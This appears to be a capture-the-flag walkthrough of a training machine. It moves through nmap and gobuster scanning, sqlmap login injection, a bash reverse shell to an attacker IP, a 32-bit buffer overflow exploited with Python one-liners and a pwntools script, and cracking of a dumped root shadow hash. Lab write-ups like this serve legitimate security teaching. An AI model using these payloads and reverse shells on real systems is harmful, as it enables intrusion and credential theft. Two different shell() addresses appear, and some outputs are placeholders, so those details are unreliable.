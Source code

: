 # The Cod Caper


<details>
  <summary>Host Enumeration</summary>

### Host Enumeration

The first step is to see what ports and services are running on the target machine.

**🔹 Recommended tool:** `nmap`

#### Useful flags:

- `-p`  
  Used to specify which port to analyze. Can also specify a range of ports, e.g. `-p 1-1000`.

- `-sC`  
  Runs default scripts on the port — useful for basic analysis of the service running on a port.

- `-A`  
  Aggressive mode — goes all out to gather as much information as possible.


---

```bash
nmap -sCV 10.10.108.49
```

``Output``

```java
Nmap scan report for 10.10.108.49
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.62 seconds
```

![image](https://github.com/user-attachments/assets/9ce2b1f0-4d29-4579-8124-88b380c49470)




  
</details>










<details>
  <summary>Web Enumeration</summary>


### Web Server Enumeration

Since the only services running are **SSH** and **Apache**, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

**🔹 Recommended tool:** `gobuster`

#### Useful flags:

- `-x`  
  Used to specify file extensions, e.g. `"php,txt,html"`.

- `--url`  
  Used to specify which URL to enumerate.

- `--wordlist`  
  Used to specify the wordlist that is appended to the URL path, e.g.:



---

```
gobuster dir -u http://10.10.108.49/ -w /home/kali/Downloads/wordlists/SecLists/Discovery/Web-Content/big.txt -x html,php,txt,bak -t 30
```

![image](https://github.com/user-attachments/assets/295ae41e-c3ef-4b2c-9536-160696262b01)




![image](https://github.com/user-attachments/assets/ba89a246-398d-4344-971d-664215e83f22)

![image](https://github.com/user-attachments/assets/d50560fb-708a-4bb3-990a-4c666232e558)


  
</details>





<details>
  <summary>Web Exploitation</summary>


### SQL Injection Testing

The admin page seems to give us a login form. In situations like this, it is always worth checking for **low-hanging fruit**. In the case of login forms, one of the first things to check for is **SQL Injection**.

**🔹 Recommended tool:** `sqlmap`

#### Useful flags:

- `-u`  
  Specifies which URL to attack.

- `--forms`  
  Automatically selects parameters from `<form>` elements on the page.

- `--dump`  
  Used to retrieve data from the database once SQL Injection is found.

- `-a`  
  Grabs just about everything from the database.



---


```
sqlmap -u http://Target_IP/administrator.php --dbs --forms
```

![image](https://github.com/user-attachments/assets/45c686fe-e118-42fe-a8ee-34d3ab3c3223)

```
sqlmap -r Request.txt -D users --tables users --dump
```

```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

![image](https://github.com/user-attachments/assets/2b9a5828-8faf-4bc8-9710-ad60c378b543)


![image](https://github.com/user-attachments/assets/7a52fbba-3378-4f87-ad45-47bffc08b505)

---

> after login

![image](https://github.com/user-attachments/assets/75a75609-2ec9-425d-8a12-a7899bf04bc5)


  
</details>










<details>
  <summary>Command Execution</summary>


### Post-Exploitation: Gaining Access

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account. Let's run a few test commands, and then try to gain access!

---

#### Method 1: `nc` Reverse Shell

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell.

➡ Some great places to find reverse shell payloads:  
- [HighOnCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

After this, you will need to do additional enumeration to find **pingu's SSH key** or **hidden password**.

---

#### Method 2: Hidden Passwords

Assuming my father hasn't modified the machine since he took over my old PC, I should still have my hidden password stored somewhere — I don’t recall though, so you'll have to find it!

**🔹 Recommended tool:** `find`  
Allows you to search for files a specific user owns.


---


```
bash -c 'bash -i >& /dev/tcp/10.8.47.102/4444 0>&1'
```

```
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/51333772-af4e-41db-b561-9454386a80d4)

---

```
find / 2>>/dev/null | grep -i shadow
```


![image](https://github.com/user-attachments/assets/567b9ed5-4647-4b76-874a-76da2f133727)



To answer this question I've searched into the machine
the path is the following

> /var/hidden/pass


![image](https://github.com/user-attachments/assets/10eafadd-abe1-42b6-bc31-8abb5cac3202)

``password`` of pingu

```
pinguapingu
```
![image](https://github.com/user-attachments/assets/417a006d-4ade-489a-864e-ad7597a5da2d)


  
</details>



<details>
  <summary>LinEnum</summary>

### Privilege Escalation with LinEnum

`LinEnum` is a Bash script that searches for possible ways to escalate privileges. It is incredibly popular due to the sheer number of methods it checks for, and often LinEnum is one of the first things to try when you get shell access.

---

#### Methods to get LinEnum on the system

**🔹 Method 1: `scp`**

Since you have SSH access on the machine, you can use `scp` to copy files over.  
Example command:

```bash
scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```


##🔹 Method 2: SimpleHTTPServer

> SimpleHTTPServer is a Python module that hosts a basic web server on your machine.
> Assuming the compromised machine can remotely download files, you can host LinEnum and download it.

on dir that have ``LinEnum``

```
python3 -m http.server 7777 
```

on server

```
wget http://10.8.47.102:7777/LinEnum.sh
```

---

```
chmod +x LinEnum.sh

./LinEnum.sh
```

![image](https://github.com/user-attachments/assets/250ffdea-f277-4cca-a3ba-28cc695a3eee)



  
</details>




<details>
  <summary>Pwndbg ⭕</summary>


# Simple Buffer Overflow Exploit Walkthrough

This document walks through a basic buffer overflow vulnerability to overwrite the Instruction Pointer (EIP) and control the program's execution flow.

## 1. Source Code Analysis

The vulnerability exists in the following C code, which contains a `get_input` function with a fixed-size buffer and a `shell` function that we aim to execute.

```c
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"

// This is the target function we want to execute.
void shell(){
    setuid(1000);
    setgid(1000);
    system("cat /var/backups/shadow.bak");
}

// This function is vulnerable to a buffer overflow.
void get_input(){
    char buffer[32]; // A buffer of only 32 bytes.
    scanf("%s", buffer); // No bounds checking, allowing more than 32 bytes to be written.
}

int main(){
    get_input();
}
```

The program expects 32 characters of input, but `scanf("%s", ...)` does not check the input length, creating a classic buffer overflow vulnerability.

## 2. Initial Investigation with GDB

To investigate the binary, we use GDB with the `pwndbg` plugin.

First, start GDB:
```sh
gdb /opt/secret/root
```
You should see the `pwndbg` interface initialize, indicating it's ready for debugging.

*_(Optional: You can add a screenshot of the GDB startup screen here)_*

## 3. Triggering the Vulnerability

Next, we test for the overflow by sending more data than the buffer can hold. We use the `cyclic` tool to generate a unique pattern of 50 characters. This makes it easy to determine which part of our input overwrites specific memory locations.

Run the program inside GDB with the cyclic input:
```gdb
r < <(cyclic 50)
```

The program will crash due to a **segmentation fault**. The `pwndbg` output shows the state of the registers at the time of the crash.

*_(Optional: You can add a screenshot of the GDB crash screen here, showing the overwritten EIP)_*

Notice that the **EIP** (Instruction Pointer) is overwritten with `0x6161616c`. This value is part of our cyclic input (`laaa`). Since we control EIP, we can redirect the program's execution to any location in memory, such as our `shell` function.

## 4. Calculating the Offset

The next step is to find out exactly how many characters it takes to overwrite the EIP. The unique pattern from `cyclic` allows us to calculate this offset easily.

Use `cyclic` with the `-l` flag and the value that overwrote EIP:
```sh
cyclic -l 0x6161616c
```

**Output:**
```
44
```

This result tells us that the first **44 bytes** of our input fill the buffer and overwrite other stack data, right up to the EIP. Therefore, the bytes that come *after* the first 44 will overwrite the EIP.

## 5. Conclusion

The pre-exploitation phase is complete. We have successfully identified:
1.  A buffer overflow vulnerability in the `get_input` function.
2.  That we can control the EIP register.
3.  The exact offset required to overwrite EIP is **44 bytes**.

The next step would be to craft a final exploit payload that consists of 44 bytes of padding followed by the memory address of the `shell` function.



---
---

✅ You have:

- A SUID binary: /opt/secret/root

- Source code of the binary

- A vulnerable buffer overflow (you can overwrite EIP / instruction pointer)

✅ Goal:

- Overwrite EIP to point to the shell() function and execute it to read /var/backups/shadow.bak as user pingu (UID 1000).


### 1️⃣ Open the binary in GDB with pwndbg

```
gdb /opt/secret/root
```

![image](https://github.com/user-attachments/assets/439762dc-e35f-4ce3-9143-5e760c3c40c3)


### 2️⃣ Run with cyclic input to crash it and find offset

```
r < <(cyclic 50)
```


### 3️⃣ Calculate the offset

```
cyclic -l 0x6161616c
```


### 4️⃣ Find shell() function address

```
p shell
```

You’ll get something like:

```
$1 = {<text address>} 0x080484b6
```

👉 Save that address (for example, 0x080484b6). That’s what we’ll overwrite EIP with!

### 5️⃣ Build the exploit payload

```
"A" * 44 + shell address
```

Example:

```
python3 -c 'print("A"*44 + "\xb6\x84\x04\x08")' | /opt/secret/root
```

⚠ Remember: Little-endian!
If shell = 0x080484b6, write it as \xb6\x84\x04\x08.


🛠 Summary of Commands

```
gdb /opt/secret/root
r < <(cyclic 50)
# Note crash address
cyclic -l 0x{crash address}
p shell
# Use address of shell in payload
python3 -c 'print("A"*44 + "\xb6\x84\x04\x08")' | /opt/secret/root
```

![image](https://github.com/user-attachments/assets/e6eb27f6-f59c-42e1-86b4-1634c88b4bca)

Perfect! Now that you got the Segmentation fault with the input of 50 "A"s, it means you successfully overflowed the buffer and crashed the program. 🎉

![image](https://github.com/user-attachments/assets/892ec506-dc99-4f6b-bde7-e3bdc84298b2)



  
</details>




<details>
  <summary>Binary-Exploitaion: Manually⭕</summary>


## 6. Finding the `shell` Function Address

Now that we know the offset is 44 bytes, we need to find the memory address of the `shell` function. This address will be the new value for the EIP.

Inside GDB, we can use the `disassemble` command to inspect the function and find its starting address.

**Command:**
```gdb
disassemble shell
```

**Output:**
```asm
Dump of assembler code for function shell:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     mov    DWORD PTR [esp],0x3e8
   0x080484d8 <+13>:    call   0x8048380 <setuid@plt>
   0x080484dd <+18>:    mov    DWORD PTR [esp],0x3e8
   0x080484e4 <+25>:    call   0x8048350 <setgid@plt>
   0x080484e9 <+30>:    mov    DWORD PTR [esp],0x80485a0
   0x080484f0 <+37>:    call   0x8048340 <system@plt>
   0x080484f5 <+42>:    leave  
   0x080484f6 <+43>:    ret    
End of assembler dump.
```

The address we are interested in is the very first one: `0x080484cb`. This is where the `shell` function begins.

## 7. Crafting the Exploit Payload

Our final payload will consist of:
1.  **44 bytes** of padding to fill the buffer and reach the EIP.
2.  The **memory address** of our `shell` function (`0x080484cb`) to overwrite the EIP.

### A Note on Little-Endian Architecture

Modern CPU architectures are typically "little-endian," which means the order of bytes is reversed. For our exploit to work, we must provide the memory address in little-endian format.

-   **Original Address:** `0x080484cb`
-   **Little-Endian Format:** `\xcb\x84\x04\x08`

### Payload Generation with Python

We can use a simple Python one-liner to generate and print the payload.

#### Method 1: Manual Conversion
This method involves manually reversing the bytes of the address.

```sh
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
```

#### Method 2: Using `struct.pack`
This is the recommended method as it handles the little-endian conversion for us automatically. `struct.pack("<I", ...)` packs an unsigned integer (`I`) into little-endian (`<`) format.

```sh
python -c 'import struct; print "A"*44 + struct.pack("<I", 0x080484cb)'
```
Both commands produce the same output: 44 "A" characters followed by the memory address in the correct byte order.

## 8. Executing the Exploit

Finally, we pipe the output of our Python script directly into the vulnerable program.

```sh
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

If successful, the `shell` function will execute, and you will see the contents of the backup shadow file:

**Expected Output:**
```
[Contents of /var/backups/shadow.bak will be displayed here]
```

This completes the exploit, successfully redirecting the program's execution to run our desired code.


---
---

![image](https://github.com/user-attachments/assets/b48d571b-ada8-429f-a3e1-d85a98b8d8b0)


```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
```

Save to a file ``shadow.hashes``:

```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:::
```

```
john shadow.hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/9014ad82-51ae-4436-abdb-b9c7b7c5a8eb)

```
love2fish
```

  
</details>





<details>
  <summary>Binary Exploitation: The pwntools way⭕</summary>


## 9. Automating the Exploit with Pwntools

While the manual method works, it can be tedious. `pwntools` is a powerful Python library specifically designed for exploit development that simplifies this entire process.

This section will build the final exploit script step-by-step.

### Step 1: Setting up the Process

First, we import the library and start the target process. This gives us a process object (`proc`) that we can interact with programmatically.

```python
from pwn import *

# Start the target process
proc = process('/opt/secret/root')
```

### Step 2: Finding the Function Address with ELF

Instead of using GDB to find the `shell` function's address, `pwntools` can parse the binary file directly using its `ELF` functionality. This lets us retrieve the addresses of symbols, like functions, by name.

```python
from pwn import *

proc = process('/opt/secret/root')

# Load the binary into an ELF object to analyze it
elf = ELF('/opt/secret/root')

# Automatically find the address of the 'shell' function
shell_func = elf.symbols.shell
```
The `shell_func` variable now holds the memory address of our target function (e.g., `0x080484cb`).

### Step 3: Building and Sending the Payload

`pwntools` provides a convenient function called `fit()` to build the payload. We tell it the offset and what to place there. It automatically handles the little-endian conversion.

-   `proc.sendline()` sends our completed payload to the process.
-   `proc.interactive()` passes control over to us, allowing us to see the output from the shell command.

### Final Exploit Script

Combining all the pieces gives us our final, automated exploit script.

**exploit.py:**
```python
from pwn import *

# 1. Start the process
proc = process('/opt/secret/root')

# 2. Analyze the binary to find the 'shell' function address
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell

# 3. Craft the payload
#    - fit() automatically adds padding
#    - It places the shell_func address at offset 44
#    - It handles little-endian conversion automatically
payload = fit({
    44: shell_func 
})

# 4. Send the payload
proc.sendline(payload)

# 5. Switch to interactive mode to see the output
proc.interactive()
```

### Running the Script

Save the code above to a file (e.g., `exploit.py`) and run it from your terminal:

```sh
python exploit.py
```

**Expected Output:**
Running the script will start the process, send the exploit, and then present you with the interactive output, which will show the contents of the backup shadow file retrieved by the `shell` function.

```
[+] Starting local process '/opt/secret/root': pid 12345
[*] Switching to interactive mode
[Contents of /var/backups/shadow.bak will be displayed here]
$ 
```
This demonstrates how `pwntools` can significantly streamline the exploit development process.




---


make file ``exploit.py``

```
from pwn import *

# Start the vulnerable binary as a process
proc = process('/opt/secret/root')

# Load the binary as an ELF so we can access symbols (like the address of 'shell')
elf = ELF('/opt/secret/root')

# Get the address of the shell function
shell_func = elf.symbols.shell

# Build the payload: 44 bytes of padding + address of shell function
payload = fit({
    44: shell_func
})

# Send the payload
proc.sendline(payload)

# Interact with the process (get the output)
proc.interactive()

```


```
python exploit.py
```

```
[+] Starting local process '/opt/secret/root': pid 1663
[DEBUG] PLT 0x8048370 setgid
[DEBUG] PLT 0x8048380 system
[DEBUG] PLT 0x8048390 __libc_start_main
[DEBUG] PLT 0x80483a0 setuid
[DEBUG] PLT 0x80483b0 __isoc99_scanf
[DEBUG] PLT 0x80483c0 __gmon_start__
[*] '/opt/secret/root'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  cb 84 04 08  │iaaa│jaaa│kaaa│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[*] Process '/opt/secret/root' stopped with exit code -11 (SIGSEGV) (pid 1663)
[DEBUG] Received 0x37f bytes:
    'root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::\n'
    'daemon:*:17953:0:99999:7:::\n'
    'bin:*:17953:0:99999:7:::\n'
    'sys:*:17953:0:99999:7:::\n'
    'sync:*:17953:0:99999:7:::\n'
    'games:*:17953:0:99999:7:::\n'
    'man:*:17953:0:99999:7:::\n'
    'lp:*:17953:0:99999:7:::\n'
    'mail:*:17953:0:99999:7:::\n'
    'news:*:17953:0:99999:7:::\n'
    'uucp:*:17953:0:99999:7:::\n'
    'proxy:*:17953:0:99999:7:::\n'
    'www-data:*:17953:0:99999:7:::\n'
    'backup:*:17953:0:99999:7:::\n'
    'list:*:17953:0:99999:7:::\n'
    'irc:*:17953:0:99999:7:::\n'
    'gnats:*:17953:0:99999:7:::\n'
    'nobody:*:17953:0:99999:7:::\n'
    'systemd-timesync:*:17953:0:99999:7:::\n'
    'systemd-network:*:17953:0:99999:7:::\n'
    'systemd-resolve:*:17953:0:99999:7:::\n'
    'systemd-bus-proxy:*:17953:0:99999:7:::\n'
    'syslog:*:17953:0:99999:7:::\n'
    '_apt:*:17953:0:99999:7:::\n'
    'messagebus:*:18277:0:99999:7:::\n'
    'uuidd:*:18277:0:99999:7:::\n'
    'papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::\n'
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
```




  
</details>





<details>
  <summary>Finishing the job</summary>


## 10. Cracking the Root Password Hash

Now that we have retrieved the password hash, the final step is to crack it to reveal the root password.

### The Hash
From the previous steps, we obtained the root user's password hash:
```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

### Recommended Tool: Hashcat
`Hashcat` is a powerful and versatile password recovery tool. It uses your GPU (or CPU) to rapidly guess passwords from a wordlist against the given hash.

### Preparing for the Crack

**1. Identify the Hash Type:**
The prefix `$6$` indicates that this is a `sha512crypt` hash, which is a common format for modern Linux systems. According to the [Hashcat example hashes list](https://hashcat.net/wiki/doku.php?id=example_hashes), the mode for `sha512crypt` is **1800**.

**2. Get a Wordlist:**
We will use `rockyou.txt`, a popular and effective wordlist containing millions of passwords from a previous data breach. If you don't have it, you can download it from various sources online. On systems like Kali Linux, it's often located at `/usr/share/wordlists/rockyou.txt.gz` (you may need to decompress it first).

**3. Save the Hash to a File:**
Copy the hash string and save it into a new text file named `hash.txt`.

### Hashcat Command and Flags
The basic syntax for Hashcat is:
```sh
hashcat {flags} {hashfile} {wordlist}
```
We will use the following flags:
* `-a 0`: Specifies the attack mode. Mode `0` is a "Straight" or dictionary attack, which is what we want.
* `-m 1800`: Specifies the hash type mode, which we identified as `sha512crypt`.

### Putting It All Together
With the hash saved in `hash.txt` and `rockyou.txt` ready, the final command is:
```sh
hashcat -a 0 -m 1800 hash.txt /path/to/your/rockyou.txt
```
*(Remember to replace `/path/to/your/rockyou.txt` with the actual path to your wordlist file.)*

### Cracking Process and Result
Hashcat will now start. It will iterate through every password in `rockyou.txt`, hash it using `sha512crypt`, and compare it to the hash in your file.

If successful, Hashcat will stop and display the cracked password in the following format:
```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:crackedpassword

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt, SHA512 (Unix)
Hash.Target......: $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q...
Time.Started.....: ...
Time.Estimated...: ...
Guess.Base.......: File (/path/to/your/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#*.........: ...
Recovered........: 1/1 (100.00%) Digests
Progress.........: ...
Rejected.........: ...
Restore.Point....: ...
Candidates.#*....: ...
HWMon.GPU.#1.....: Temp: 60c Util: 98% Core:1800MHz Mem:6000MHz Bus:16
```

The plain-text password will be displayed after the full hash string. You now have the root password!


---
---
--

```
echo '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' > hashes.txt
```

```
hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```





---

> [!warning]
> 
> using john ripper

![image](https://github.com/user-attachments/assets/1925674e-aa1d-4453-8279-48120c6d6b6f)


```
love2fish
```

  
</details>




















